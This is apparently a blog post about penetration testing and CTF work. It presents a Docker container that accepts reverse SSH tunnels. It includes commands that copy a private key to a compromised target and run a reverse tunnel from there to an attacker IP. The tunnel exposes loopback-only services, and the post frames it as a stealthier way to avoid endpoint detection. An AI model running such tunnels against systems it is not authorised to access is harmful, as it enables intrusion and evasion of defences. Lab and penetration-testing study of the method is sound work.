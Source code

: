 ```yaml
---
layout: post
title: ZombieRelay - Temporary Docker container for reverse SSH Tunneling
date: 2025-04-19
categories: [Cybersecurity, CTF, Pentest, Docker]
tags: [cybersecurity, docker, ssh, pentest, ctf]
---
```


![](/assets/images/zombierelay_banner_wb1.jpg)

It is not uncommon to find web services running only on the loopback interface while enumerating a system after gaining a foothold on it during a penetration test (or a CTF). How do you visit them if you don't have access to a browser on the remote host? If you accessed the target via SSH or got an instable reverse shell after exploiting some external service?

The answer to the aforementioned problem is **tunneling**: in simple terms, you set up a tunnel on the target that redirects traffic from your host to the interface and port hosting the local service.

There are various ways to achieve this, but my favorite is using **SSH** because it doesn’t require dropping executables on the target, which could potentially trigger any antimalware or endpoint protection system running on the target machine, even just due to a signature match.

If the target hosts an SSH server and you know some remote user's credentials, you don't need anything else than running the following command on your host.

```sh
ssh -L 8080:127.0.0.1:8080 user@target.htb -N -f
```

However, there are cases where you don't have credentials to access SSH or the target doesn't even have an SSH server running. What can you do then?

You can do it the other way around: make the target initiate an SSH connection to your machine hosting an SSH server, effectively creating a reverse tunnel from the target to your host.

Since giving access to your host to the target is not a good idea, I created **Zombie Relay**, a docker-compose script to build an Alpine container with an OpenSSH server installed. **Designed to die and rise again, just like a zombie**.

📂 Repository: [Zombie Relay - Github](https://github.com/0xyy66/ZombieRelay)

- Easy to setup
- Temporary
- Doesn't expose your host file system
- You don't need to drop any noisy executable on the target

## How it works

### Configuration - tuning your zombie

Before building the container, I suggest to take a look at the `docker-compose.yml` file. 

```yml
services:
  zombierelay:
    image: alpine:latest
    ports:
      - "2224:22"
      - "9090:9090"
```

By default only 2 ports are mapped:

- 2224:22 - exposes OpenSSH on your host on port 2224
- 9090:9090 - you will tunnel the remote service through port 9090 of the container and it will be available on port 9090 of your host.

**You can map as many ports as you need**, just append another line to ports (ex. `- "80:8080"`).

### Raising a zombie

Spawning a Zombie Relay container is as easy as running `docker compose up`.

![](/assets/images/zombierelay_attacker_docker.png)

The docker compose script fetches an Alpine container, installs OpenSSH, creates a pair of keys (Ed25519) and copies the sshd_config configured to permit tunneling inside the container.

After the keys creation, Docker prints out the private key, so you can drop it on the target and connect back to the container running on your host (it just needs some manual cleaning from the Docker prefix and the newlines) or you can directly copy the key from the container to your host (preferred way).

```sh
docker cp $(docker ps -l -q):/root/.ssh/id_ed25519 .
```

### Tunnel the remote service to your host

For this part, I set up a Python HTTP server running on port 8080 **locally**. When a local user visits the website root, he receives the message "Internal service only".

![](/assets/images/zombierelay_victim_1.png)

It's now time to drop the zombie's private key on the target and tunnel the local service. Don't forget to **change the file's permissions to 600** (`chmod 600 id_ed25519`). 

Finally, run the ssh command to reverse tunnel the service.

```sh
ssh -i id_ed25519 -p 2224 -R 9090:127.0.0.1:8080 root@10.10.14.20 -N -f
```

In this case, I'm mapping the local service running on port 8080 to the Zombie Relay port 9090, which is mapped on my host on port 9090.

> In my docker-compose file the port is mapped as `8080:9090`

![](/assets/images/zombierelay_victim_2.png)

> The `-N` and `-f` flags, are useful to prevent spawning an SSH session on the container or leaving the remote shell suspended.

### Accessing the remote "internal service only" locally

Lastly, once the remote local service is tunneled to your host, open your browser and navigate to it via the mapped port (9090 in this case).

![](/assets/images/zombierelay_attacker_tunneled_service.png)

## Conclusion

The relay is easy to set up, portable, and (hopefully) stealthier than dropping a binary on the target. A health check is in the works to help with connectivity issues. Suggestions and feedback are more than welcome.

📂 Repository: [Zombie Relay - Github](https://github.com/0xyy66/ZombieRelay)